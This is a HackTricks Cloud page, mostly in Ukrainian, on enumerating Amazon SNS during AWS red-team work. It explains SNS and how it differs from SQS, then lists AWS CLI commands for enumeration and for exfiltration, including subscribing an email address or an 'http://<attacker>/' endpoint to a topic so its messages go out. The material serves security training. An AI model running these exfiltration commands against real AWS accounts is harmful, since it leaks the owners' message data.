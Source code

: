 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) описується як **повністю керована служба обміну повідомленнями**. Вона підтримує як **додаток-додатку** (A2A), так і **додаток-людина** (A2P) типи комунікації.

Ключові особливості для A2A комунікації включають **механізми публікації/підписки (pub/sub)**. Ці механізми вводять **теми**, які є критично важливими для забезпечення високої пропускної здатності, **пуш-орієнтованого, багато до багатьох обміну повідомленнями**. Ця функція є надзвичайно вигідною в сценаріях, що включають розподілені системи, мікросервіси та архітектури безсерверних подій. Використовуючи ці теми, системи видавців можуть ефективно розподіляти повідомлення на **широкий спектр систем підписників**, полегшуючи патерн обміну повідомленнями fanout.

### **Різниця з SQS**

**SQS** є **черговою** службою, яка дозволяє точкову комунікацію, забезпечуючи обробку повідомлень **одиничним споживачем**. Вона пропонує **доставку принаймні один раз**, підтримує стандартні та FIFO черги, а також дозволяє зберігання повідомлень для повторних спроб і затриманої обробки.\
З іншого боку, **SNS** є **службою на основі публікації/підписки**, що дозволяє **один до багатьох** комунікацію, транслюючи повідомлення **багатьом підписникам** одночасно. Вона підтримує **різні кінцеві точки підписки, такі як електронна пошта, SMS, функції Lambda та HTTP/HTTPS**, і надає механізми фільтрації для цільової доставки повідомлень.\
Хоча обидві служби дозволяють розділення між компонентами в розподілених системах, SQS зосереджується на черговій комунікації, а SNS підкреслює подієву, fan-out комунікацію.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Зверніть увагу, що якщо **тема є типу FIFO**, можуть бути використані лише підписники, які використовують протокол **SQS** (HTTP або HTTPS не можуть бути використані).

Також, навіть якщо `--topic-arn` містить регіон, переконайтеся, що ви вказали правильний регіон у **`--region`**, інакше ви отримаєте помилку, яка виглядає так, ніби у вас немає доступу, але проблема в регіоні.
{% endhint %}

#### Неавтентифікований доступ

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Підвищення привілеїв

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Після експлуатації

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Постійність

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Посилання

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
